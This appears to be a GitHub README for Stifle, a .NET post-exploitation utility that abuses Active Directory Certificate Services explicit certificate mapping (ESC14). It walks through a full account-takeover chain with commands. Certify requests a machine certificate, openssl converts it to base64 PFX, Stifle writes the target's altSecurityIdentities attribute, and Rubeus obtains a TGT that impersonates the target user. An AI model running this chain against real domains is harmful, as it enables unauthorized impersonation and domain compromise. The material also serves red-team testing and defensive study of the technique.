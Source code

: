 # Description
Nearly a year ago, Jonas Knudsen ([@Jonas_B_K](https://x.com/Jonas_B_K)) over at SpecterOps published a blog titled “ADCS ESC14 Abuse Technique”, covering a previously known technique for leveraging Active Directory Certificate Services (ADCS) for multiple types of account takeover via explicit certificate mapping. He published a collection of PowerShell tooling used for generating and writing the `altSecurityIdentities` attribute as part of the primary variation of the abuse technique. Since this technique could be seen as the third main method of account takeover when holding a write primitive over an object (along with RBCD and Shadow Credentials), I thought it needed its own .NET tooling since I noticed there hasn't been a single release for the past year. 

Introducing Stifle, an extremely simple .NET post-exploitation utility that uses a passed certificate to set explicit certificate mapping on a target object, allowing authentication as the target object using the already held certificate mapped. 

```
   _____ _   _  __ _
  / ____| | (_)/ _| |
 | (___ | |_ _| |_| | ___
  \___ \| __| |  _| |/ _ \
  ____) | |_| | | | |  __/
 |_____/ \__|_|_| |_|\___|

 [*] Exploit explicit certificate mapping in Active Directory

 [*] Add an explicit certificate mapping on a target object by writing the required altSecurityIdentities value using a certificate and the certificate password:
        Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd

 [*] Clear the altSecurityIdentities attribute, removing the explicit certificate mapping:
        Stifle.exe clear /object:target
```

# Use
First request a certificate using Certify that the target object will be mapped to (Note the certificate requested must be a machine account certificate):
```Certify.exe request /ca:lab.lan\lab-dc01-ca /template:Machine /machine```
![image](https://github.com/user-attachments/assets/6472d40d-333e-47a9-9f34-19380eec2463)

Then copy the certificate information into a `.pem` file and use the openssl binary on a unix-based system to convert to base64 `.pfx` format:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export | base64 -w 0
```

Next copy the exported certificate and exported certificate password into Stifle, which will generate a certificate mapping string and write it to the target objects `altSecurityIdentities` attribute:
```
Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/bfa06572-ac53-400f-8795-4542b89a41f8)


Finally request a TGT using PKINIT authentication, effectively impersonating the target user with Rubeus:
```
Rubeus.exe asktgt /user:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/9e7045cf-ef52-4fd4-a380-592f28080a15)


